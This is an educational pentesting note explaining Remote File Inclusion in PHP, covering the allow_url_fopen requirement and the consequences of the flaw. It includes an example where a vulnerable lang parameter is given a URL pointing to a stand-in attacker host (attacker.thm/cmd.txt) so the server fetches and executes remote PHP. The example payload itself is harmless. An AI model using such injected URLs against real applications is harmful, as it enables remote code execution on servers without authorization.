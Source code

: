```yaml
---
title: Remote File Inclusion
---
```


_Remote File Inclusion_ is a technique to include remote files and into a vulnerable application. Like [Local File Inclusion](knowledge/offsec/pentesting/LFI.md), the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function.

One requirement for RFI is that the `allow_url_fopen` option needs to be on.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain [Remote Command Execution (RCE)](Remote%20Command%20Execution%20(RCE)) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting ([XSS](private/cybersecurity/knowledge/pentesting/XSS.md))
- Denial of Service ([DoS](DoS))

An external server hosting malicious files must communicate with the application server for a successful RFI attack. The malicious file is injected into the `include` fn via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

## Example

Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where cmd.txt contains PHP code:

```php
<?php echo "Hello World"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as

```
http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt
```

If there is no input validation, then the malicious URL passes into `include`. Next, the web app server will send a `GET` request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker.
